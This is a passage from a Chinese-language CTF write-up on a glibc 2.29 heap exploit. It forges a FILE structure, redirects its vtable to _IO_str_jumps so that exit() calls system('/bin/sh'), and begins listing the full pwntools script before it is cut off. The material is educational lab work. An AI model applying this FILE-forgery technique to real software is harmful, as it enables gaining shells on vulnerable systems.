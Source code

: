    * _IO_write_ptr - _IO_write_base  >    _IO_buf_end - _IO_buf_base
   * _IO_buf_base要指向 ("/bin/sh\x00"字符串*2 + p64(system_addr))该处的地址
   * 这里我使用的small bin是0xb0，所以要保证 _IO_buf_end - _IO_buf_base = 0x1e ((0xa0 -100) /2)
   * 覆盖vtable为_IO_str_jumps

   ```python
   # ========== 在当前堆chunk4上 构造FILE ==========
   file = p64(0) + p64(0)
   # _IO_write_base < _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0x50) + p64(0)
   # _IO_buf_base     _IO_buf_end
   file+= p64(heap_base + 0x3B08) + p64(heap_base + 0x3B08 + 0x1e)
   file+= b"/bin/sh\x00"*2 + p64(system_addr)
   file = file.ljust(0xc8,b"\x00")
   
   # vtable->_IO_str_jumps  
   file+= p64(_IO_str_jumps_addr)
   edit(4,file)
   ```

   伪造出来就是下面这个样子：

   ![image-20240829114940169](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291149323.png)

4. 最后调用exit()函数就能get shell：

   上面伪造的IO_FILE和**_IO_flush_all_lockp中要满足的判断条件**重合，所以不用在考虑_IO_flush_all_lockp条件：

   ![image-20240829115241512](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291152628.png)

   进入_IO_str_overflow函数：

   前面的条件全部绕过，直接到申请malloc，大小是0xa0，所以会拿到0xb0的chunk：

   ![image-20240829115402033](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291154149.png)

   ![image-20240829115904555](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291159727.png)

   最后get shell：

   ![image-20240829115953204](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291159408.png)
   
5. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node5.buuoj.cn",26347)
   p = process("./hello")
   libc = ELF('/home/kali/Desktop/source_code/glibc-2.29_lib/lib/libc-2.29.so')
   elf = ELF("./hello")
   
   def add(index,size):
       p.sendlineafter(b':','1')
       p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b':',str(size).encode())
   
   def edit(index, content):
       p.sendlineafter(b':','3')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(':',str(len(content)))
       p.sendafter(b':',content)
   ```
